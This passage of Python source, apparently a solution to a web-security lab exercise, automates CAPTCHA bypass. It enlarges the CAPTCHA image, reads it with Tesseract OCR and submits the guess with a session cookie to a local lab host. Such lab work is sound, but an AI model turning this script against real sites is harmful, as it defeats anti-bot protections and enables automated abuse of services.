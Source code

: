 ```python
        print ("*****Error: No puede descargar la pagina*****");

os.system('convert captcha1.png -white-threshold 20% captcha2.png')
os.system('convert captcha2.png -implode -0.5 captcha3.png')

def resizer():
 print("[+] Redimensionando...");
 im1 = Image.open("captcha.png")
 width, height = im1.size
 im2 = im1.resize((int(width*5), int(height*5)), Image.BICUBIC)
 im2.save("captcha1.png")

 
 
def tesseract():
    try:
        print("[+] Ejecutando Tesseract...");
        #Run Tesseract, -psm 8, tells Tesseract we are looking for a single word 
        #subprocess.call(['tesseract', 'captcha1.png', 'output', '-psm', '8'])
        subprocess.call(['tesseract', 'captcha1.png', 'output', '8'])
        f = open ("output.txt","r")
        global cvalue
  #Borra los espacios en blanco y las nuevas lineas de la salida Tesseract
        cvaluelines = f.read().replace(" ", "").split('\n')
        cvalue = cvaluelines[0]
        print("-----Captcha: " + cvalue); 
    except Exception as e:
        print ("Error: " + str(e))

  
def send():
    try:
        print("[+] Enviando peticion...");
        urlconcaptcha = "http://192.168.100.167/captcha/example7/submit?captcha="+str(cvalue)+"&Submit+Query"
        print("-----URL: " + urlconcaptcha);
        request = urllib.request.Request(urlconcaptcha,headers={'Cookie':cookie})
        f = urlopen(request)
        response = f.read().decode('utf-8')
        #print(response)
        exito = re.search('Success', response)
        if exito:
            print("-----Conseguido!")
        else:
            print ("-----Fallo!")
    except Exception as e:
        print ("Error: " + str(e))


print("[+] Inicio!");
#Descarga la página y la parsea
getpage();
#Descarga la imagen del captcha
getcaptcha();
#Redimensiona la imagen del captcha 
resizer();
#Usa Tesseract para analizar la imagen del captcha
tesseract();
#Envia la peticion al sitio con los datos del formulario y el captcha
send();
print("[+] Fin!");
```